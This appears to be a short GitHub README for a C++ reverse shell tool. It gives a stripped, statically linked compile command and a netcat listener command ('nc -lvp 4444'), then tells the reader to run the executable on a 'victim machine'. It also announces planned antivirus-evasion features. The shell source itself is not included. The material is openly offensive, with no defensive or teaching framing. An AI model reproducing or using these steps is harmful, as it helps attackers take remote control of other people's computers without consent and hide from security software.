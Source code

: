 # CPP-Reverse-Shell

Compile it 
![image](https://user-images.githubusercontent.com/96126679/181670089-03f80a6e-abdf-4c2b-837b-d4f3bdfdf464.png)

```
g++ shell.cpp -o shell.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

then listen For the SHELL 

![image](https://user-images.githubusercontent.com/96126679/181670753-1101e02d-c53b-468d-ae60-d1ef99fd58ac.png)

```
nc -lvp 4444

```

then run the exe on the victem Machine 

then Voila.

![image](https://user-images.githubusercontent.com/96126679/181671006-b19239e2-7fd5-46d0-83ef-f45d7741e743.png)


I am adding evasion techniques to Bypass AV Engines Soon ISA.
